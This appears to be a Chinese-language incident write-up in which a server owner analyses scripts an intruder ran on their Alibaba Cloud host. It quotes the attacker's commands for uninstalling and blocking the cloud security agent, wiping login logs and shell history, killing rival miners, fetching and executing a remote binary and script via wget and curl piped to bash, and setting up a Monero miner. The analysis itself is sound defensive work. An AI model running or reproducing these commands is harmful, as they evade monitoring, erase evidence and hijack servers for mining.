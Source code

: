 # 记上次黑客入侵阿里云主机，并分析其代码行为。

已将问题反馈到阿里云安全团队客服，并向阿里云中心举报其地址。接下来是代码分析。

## xz.sh部分，即卸载脚本

参考信息源：

* [bili_62374023667-linux下ETH转发服务器+ETH抽水教程，支持SSL加密+删除阿狸监控避免上报](https://www.bilibili.com/read/cv15054271/)
* [csdn-linux+agent卸载_华为云服务器卸载agent监控服务Linux+windows教程](https://blog.csdn.net/weixin_33148621/article/details/113900993)
* [CentOS服务器清除用户登录记录和命令历史方法](https://blog.csdn.net/cljdsc/article/details/123358983)
* [Linux基础：history命令](https://blog.51cto.com/skypegnu1/1941153)


黑客核心代码解读

```
# 首先是下载阿里云盾卸载脚本
wget http://update.aegis.aliyun.com/download/uninstall.sh
chmod +x uninstall.sh && ./uninstall.sh
# 然后屏蔽掉云盾IP
iptables -I INPUT -s 140.205.201.0/28 -j DROP
# 进行恶意卸载云盾等其他组件服务
sh /usr/local/qcloud/stargate/admin/uninstall.sh
# 还把监控都给停止了
service telescoped stop
# 清除系统登录成功命令历史记录
echo > /var/log/wtmp 
# 清除登陆系统失败的记录
echo > /var/log/btmp
# 导入空记录，清除历史执行命令
echo > .bash_history
# 清除历史执行命令并保存。
history -c && history -w
# 删掉脚本
rm -rf cd /root/uninstall.sh
```

## k.sh，即杀死进程脚本

参考信息源：

* [Shell 文件或目录操作符（-e、-d、-f、-r、-w、-x）](https://blog.csdn.net/zz00008888/article/details/122360612)

黑客核心代码解读

```
# 结束dos26（可能为ddos）
killall -9 dos26
# 结束不明程序（命名不知其意）
killall -9 tfq
# 结束挖矿程序
killall -9 xmrig
# 删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 判断对象是否有可写(Write)权限，是则为真
if [ ! -w "/tmp/dos64" ]; then
# 进入目录，下载恶意dos，赋予读写及执行权限，并执行
    cd /tmp;wget https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/dos64;chmod 777 dos64;./dos64
fi
if [ ! -w "/root/c3pool/xmrig" ]; then
# 下载恶意靶机脚本执行
    curl -s -L https://ghproxy.com/https://raw.githubusercontent.com/Tremblae/Tremble/main/ba.sh | bash -s
fi
# 又一次删除程序
rm -rf cd /tmp/dos26
rm -rf cd /tmp/tfq
rm -rf cd /tmp/xmrig
# 休眠，删掉挖矿记录文件
sleep 88;rm -rf cd /root/c3pool
```

## bk.sh，推测是靶机脚本

### if语句检测环境内容

参考信息源：

* [百度知道-Linux shell 脚本 $(id -u) 是什么意思？](https://zhidao.baidu.com/question/944658594109817212.html)
* [bbsmax-shell if判断中常用的a-z表达式含义](https://www.bbsmax.com/A/8Bz81Qa6Jx/)
* [linux 环境变量设置 -d,Linux环境变量的设置](https://blog.csdn.net/weixin_35565522/article/details/116774198)
* [Shell中的exit 0 和 exit 1是做什么的?](https://www.pianshen.com/article/37962128580/)
* [博客园-shell中的type命令](https://www.cnblogs.com/chaoguo1234/p/5723531.html)
* [Linux /dev/null详解](https://www.shuzhiduo.com/A/6pdDP9ALdw/)

```
#-----
# 判断是不是root权限
if [ "$(id -u)" == "0" ]; then
  echo ""
fi
#----
# 这部分是判断环境配置准备

# “-z 长度为零则为真”，做一个逆向判断，就是找不到这个目录，打印"请将home环境定义到主目录"。 
if [ -z $HOME ]; then
  echo "ERROR: Please define HOME environment variable to your home directory"
# 异常退出，debug检测的。
  exit 1
fi
# 检查是否有家目录，没有则提示导入，引入家目录环境变量
if [ ! -d $HOME ]; then
  echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"
  echo 'export HOME=<dir>'
  exit 1
fi

# 找不到curl命令定义，则丢入黑洞。
if ! type curl >/dev/null; then
  echo "ERROR: This script requires \"curl\" utility to work correctly"
  exit 1
fi

# `sudo -n true 2`返回“一个密码请求”的定义信息
# if ! sudo -n true 2>/dev/null; then
#  if ! pidof systemd >/dev/null; then
#    echo "ERROR: This script requires systemd to work correctly"
#    exit 1
#  fi
```

### echo信息

echo部分为英语，我用翻译及个人有限功底理解其代码。第一行，中二教言语，忽略；从第二行开始翻译解读。

```
# 这部分是配置准备，以及调试
## 请将home环境定义到主目录。 
echo "ERROR: Please define HOME environment variable to your home directory"
## 请确保home环境已设置 
echo "ERROR: Please make sure HOME directory $HOME exists or set it yourself using this command:"

# 从这行的上部分代码推测实在挖矿了， 无法计算比特币什么的
## 错误：无法计算预计的门罗币 CN 哈希率 
echo "ERROR: Can't compute projected Monero CN hashrate"
## 报错，无法计算端口，输出错误端口
echo "ERROR: Can't compute port"
echo "ERROR: Wrong computed port value: $PORT"

# 进一步的恶意操控挖矿
## 下载与后台运行Monero CPU矿机/主机
echo "I will download, setup and run in background Monero CPU miner."
## 如果需要，前台的矿工可以通过$HOME/c3pool/miner.sh脚本启动。 
echo "If needed, miner in foreground can be started by $HOME/c3pool/miner.sh script."
# 挖矿将发生在 $WALLET 钱包上。这句话打印出来，就说明之前所有暗箱操作全完成了。
echo "Mining will happen to $WALLET wallet."
# 删掉挖矿的目录
echo "[*] Removing $HOME/c3pool directory"
```

